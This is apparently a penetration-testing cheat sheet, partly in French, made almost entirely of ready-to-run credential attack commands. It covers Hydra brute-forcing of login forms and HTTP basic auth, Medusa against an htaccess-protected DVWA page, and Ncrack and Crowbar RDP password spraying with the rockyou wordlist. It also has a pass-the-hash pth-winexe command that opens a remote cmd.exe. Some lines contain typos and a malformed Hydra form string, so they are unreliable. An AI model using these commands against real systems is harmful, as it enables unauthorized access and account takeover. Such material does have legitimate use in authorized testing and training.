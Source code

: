 ###### Hydra

Login page attack

```sh
hydra -l user -P wordlist.lst <FQDN/IP> http-post-form "/login:user=^USER^&^PASS^:F=Invalid" -f
```

```sh
hydra -l user -P wordlist.lst <FQDN/IP> http-post-form "/login:user=^USER^&^PASS^:S=logout.php" -f
```

HTTP GET Attack

```sh
hydra -I -l bob -P /opt/rockyou.txt "http-get://10.10.6.224/protected:A=BASIC"
```

---
#medusa

```sh
#medusa -h <IP> -u user -P wordlist.lst -M <module> 
```

HTTP htaccess Attack with medusa (Basic Authentication)
Les pages avec les popus JS pour l'authentification qui utilise une protecter `.htaccess`

```sh

medusa -h 192.168.45.130 -u user -P /opt/rocyou.txt -M http -m DIR:/dvwa/login.php 
```

#ncrack

```sh
ncrack -vv -U user.lst -P /opt/rocyou.txt <target-ip>:<protocol>
```

#crowbar

Remote Desktop Protocl Attack with Crowbar

```sh
#crowbar -b <protcol> -S <IP> -u user -C wordlist.lst -n 2
crowbar -b rdp -S 192.168.45.130/32 -u user -C /opt/rocyou.txt -n 1
```

Passing the hash in windows

```sh
pth-winexe -U 'user%LMHASH:NTHASH' //@TARGET_IP cmd.exe
```
